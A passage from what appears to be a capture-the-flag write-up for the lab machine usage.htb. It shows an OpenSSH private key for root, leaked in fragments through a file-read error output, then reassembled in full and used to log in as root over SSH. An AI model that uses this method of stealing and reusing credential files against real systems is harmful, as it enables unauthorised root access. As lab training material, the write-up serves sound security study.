 ```bash
WARNING: No more files                                                                                                                                   
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs                                                                                   
                                                                                                                                                         
                                                                                                                                                         
WARNING: No more files                                                                                                                                   
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=                                                                                                             
                                                                                                                                                         
                                                                                                                                                         
WARNING: No more files                                                                                                                                   
-----END OPENSSH PRIVATE KEY-----                                                                                                                        
```

Now we copy the key and clean it.

```text
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
-----END OPENSSH PRIVATE KEY-----
```

Let's connect.

```terminal
$ ssh -i root_rsa root@usage.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Thu Apr 25 12:03:09 PM UTC 2024

  System load:           0.05908203125
  Usage of /:            67.1% of 6.53GB
  Memory usage:          27%
  Swap usage:            0%
  Processes:             236
  Users logged in:       2
  IPv4 address for eth0: 10.10.11.18
  IPv6 address for eth0: dead:beef::250:56ff:feb9:7fc9


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

```